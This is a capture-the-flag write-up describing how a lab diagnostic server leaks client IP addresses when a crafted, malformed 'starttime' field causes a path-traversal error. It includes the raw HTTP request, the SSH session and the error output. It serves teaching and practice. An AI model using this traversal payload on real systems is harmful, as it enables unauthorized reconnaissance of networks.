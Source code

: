 ```
POST /diagnostics HTTP/1.1
Host: localhost
User-Agent: Go-http-client/1.1
Content-Length: 3250
Accept-Encoding: gzip

...,"command_response":{"id":"00000000-0000-0000-0000-000000000000","starttime":"1970-01-01T16:50:13+00:00","endtime":"1970-01-01T16:50:13+00:00","cmd":"id","stdout":"uid=0(root) gid=0\n","stderr":"","err":""}}
```

We now have a fairly good idea of how the client and server talk to each other including message formats and general functionality. There's a number of places we could explore for potential exploits, but we'll eventually find we're able to leak information from the server through the `starttime` field in the `command_response` by sending an invalid value. The time fields are required to be 25 characters long and the `starttime` field is concatenated into a string that's used for a directory path. Due to this, including backslashes in the field can cause an error or lead to path traversal. The below command to the server demonstrates an example of this.

```
~ # ssh -i id_ed25519 -p 2222 nonroot_user@127.0.0.1
PTY allocation request failed on channel 0
2023/10/01 16:30:49 Diagnostic Server starting...
2023/10/01 16:30:54 ready
{diagserver} 2023/10/01 16:30:54.617891 Starting connection timer...
POST /diagnostics HTTP/1.1
Content-Length: 104

{"command_response":{"endtime":"0000000000000000000000000","starttime":"000000000000000000000000/"}}
{diagserver} 2023/10/01 16:31:26.690929 received StatusUpdate with CommandResponse
{diagserver} 2023/10/01 16:31:26.691015 Error storing CommandResponse to /diagnostics/var/logs/commands/by-ip/64/7F/00/02/000000000000000000000000/.json: open /diagnostics/var/logs/commands/by-ip/64/7F/00/02/000000000000000000000000/.json: no such file or directory
```

The error message reveals the command results are stored in directories derived from the client IPs. The above IP can be converted from `64/7F/00/02` to `100.127.00.2` which we know to be the jumpbox's IP address. With this information, we can use a combination of directory traversal and the resulting error messages to discover the other client IPs. The `solve.py` script in this repository attempts to automate this process, eventually printing out `100.70.194.50` and `100.74.132.50`.

## Addendum
I tried to make the above as logically linear as possible in hopes of being able to properly explain the solution, but my actual path to solving was much more chaotic and haphazard. I spent the most time on this challenge out of all nine and thought I was going to be stuck here for good a few different times. This was the only challenge I reached out to `Get-Help` for, but just the process of typing up my question helped me organize my thoughts enough to see where I had more room to explore. It was extremely rewarding in the end to hit so many walls and then finally find the error message due to the misformatted path. I've included my `Get-Help` messages below to better illustrate what my actual process looked like during the challenge.
